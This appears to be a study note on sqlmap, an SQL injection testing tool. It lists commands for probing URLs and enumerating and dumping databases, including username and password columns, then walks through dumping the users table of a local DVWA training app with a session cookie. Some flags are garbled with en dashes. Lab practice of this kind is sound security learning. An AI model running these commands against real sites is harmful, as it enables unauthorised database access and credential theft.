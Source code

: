 ## sqlmap

## home page:
http://sqlmap.org/

## Introduction:
sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

## Download:
you can download sqlmap by cloning the Git repository:
```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## commonly used commands:
sqlmap -u  "url"   //test if the url is injectable with the test level 1  

sqlmap -u  "url"  –dbms mysql –level 3   //destinate that the database is mysql with the test level 3  

sqlmap -u  "url"  –cookie “your cookie” –level 2   //inject with cookie  

sqlmap -u  "url"  –dbms mysql –level 3 –dbs    //search the name of the databases  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" –tables   //search the tables in this database  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" -T "name of table" –columns    //search the columns in this table  

sqlmap -u  "url"  –dbms mysql –level 3 -D "name of database" -T "name of table" –C “username,password” –dump  

//dump the data of the column "username" and "password"  


see more you can visit http://www.vuln.cn/1992

## attack dvwa with sql map:
first we try with  

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#"   

```
it doesn't work and the dvwa jump to the homepage, so we need to add the coockie  

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#"  
cookie="security=medium;PHPSESSID=ohkmhftad408oltet5pbe57se7" 
```
sqlmap shows that the url is injectable and after several tests we use the command below to get the username and password.  

```
python sqlmap.py -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#"   
--cookie="security=medium;PHPSESSID=ohkmhftad408oltet5pbe57se7"--batch -D dvwa -T users -C user,password --dump







